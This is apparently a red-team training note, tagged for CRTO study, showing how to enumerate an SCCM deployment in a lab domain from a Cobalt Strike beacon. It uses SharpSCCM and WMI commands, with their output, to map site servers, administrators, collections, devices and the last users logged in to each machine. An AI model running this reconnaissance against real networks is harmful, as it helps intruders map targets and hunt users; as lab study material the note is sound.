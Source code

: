 
The first step when attacking SCCM is to get a feel for the deployment topology, which devices are being managed, and who the administrative users are.

Tool to use: [SharpSCCM](https://github.com/Mayyhem/SharpSCCM)

#### 🖊️ via Cobalt Strike

1) This does not require any special privileges in the domain, in SCCM or on the endpoint.

```
beacon> run hostname
wkstn-2

beacon> getuid
[*] You are DEV\bfarmer

beacon> execute-assembly C:\Tools\SharpSCCM\bin\Release\SharpSCCM.exe local site-info --no-banner

-----------------------------------
CurrentManagementPoint: scm-1.cyberbotic.io
Name: SMS:S01
-----------------------------------
[+] Completed execution in 00:00:00.2733939
```

2) This enumeration uses WMI under the hood, which could be done manually.

```
beacon> powershell Get-WmiObject -Class SMS_Authority -Namespace root\CCM | select Name, CurrentManagementPoint | fl

Name                   : SMS:S01
CurrentManagementPoint : scm-1.cyberbotic.io
```

3) We can also check the DACL on the `CN=System Management` container in AD for machines that have Full Control over it (as this a pre-requisite of SCCM setup in a domain).

```
beacon> execute-assembly C:\Tools\SharpSCCM\bin\Release\SharpSCCM.exe get site-info -d cyberbotic.io --no-banner

[!] Found 1 computer account(s) with GenericAll permission on the System Management container:

      CYBER\SCM-1$

[+] These systems are likely to be ConfigMgr site servers
[+] Completed execution in 00:00:00.4974129
```

4) Enumerating users, groups, computers, collections, and administrators, etc, does require some level of privilege in SCCM and cannot be done as a standard domain user.  SCCM employs an RBAC security model - the lowest role is "Read-Only Analyst" and the highest is "Full Administrator".  Lots of other roles exist:
 - "Asset Manager"
 - "Infrastructure Administrator"
 - "Software Update Manager".
 
 A description of each can be found [here](https://learn.microsoft.com/en-us/mem/configmgr/core/understand/fundamentals-of-role-based-administration).  Furthermore, the "scope" of these roles can be restricted to individual collections as needed by the administrative user.  This means that the enumeration results varies from the point of view you are doing them. 

⚠ So when enumerating SCCM, you may only see a small slither based on the user you're running the enumeration as.

5) Administrative users can be found using `get class-instances SMS_Admin`.

`beacon> execute-assembly C:\Tools\SharpSCCM\bin\Release\SharpSCCM.exe get class-instances SMS_Admin --no-banner`

6) This allows us to see what is reflected in the Configuration Manger.  Members of these collections can be found using `get collection-members -n <collection-name>`. Example using collection "DEV":

`beacon> execute-assembly C:\Tools\SharpSCCM\bin\Release\SharpSCCM.exe get collection-members -n DEV --no-banner`
```
-----------------------------------
Domain: DEV
Name: WKSTN-2
-----------------------------------
Domain: DEV
Name: SQL-2
-----------------------------------
Domain: DEV
Name: WKSTN-1
```

7) Even more information on each device can be obtained using `get devices`.  There are some good ways to filter the output, such as searching by device name, `-n`, and only displaying the properties specified by `-p`.

This example uses machine WKSTN:

```
beacon> execute-assembly C:\Tools\SharpSCCM\bin\Release\SharpSCCM.exe get devices -n WKSTN -p Name -p FullDomainName -p IPAddresses -p LastLogonUserName -p OperatingSystemNameandVersion --no-banner

-----------------------------------
FullDomainName: DEV.CYBERBOTIC.IO
IPAddresses: 10.10.123.101
LastLogonUserName: nlamb
Name: WKSTN-1
OperatingSystemNameandVersion: Microsoft Windows NT Workstation 10.0
```

8) You can also use SCCM as a form of user hunting, since it records the last user to login to each managed computer.  The `-u` parameter will only return devices where the given user was the last to login.

```
beacon> execute-assembly C:\Tools\SharpSCCM\bin\Release\SharpSCCM.exe get devices -u nlamb -p IPAddresses -p IPSubnets -p Name --no-banner

-----------------------------------
IPAddresses: 10.10.123.101
IPSubnets: 10.10.122.0
Name: WKSTN-1
-----------------------------------
[+] Completed execution in 00:00:01.7570393
```



#### ⚠ Opsec




### Properties
---
📆 created   {{24-02-2024}} 21:02
🏷️ tags: #redteam #crto 

---

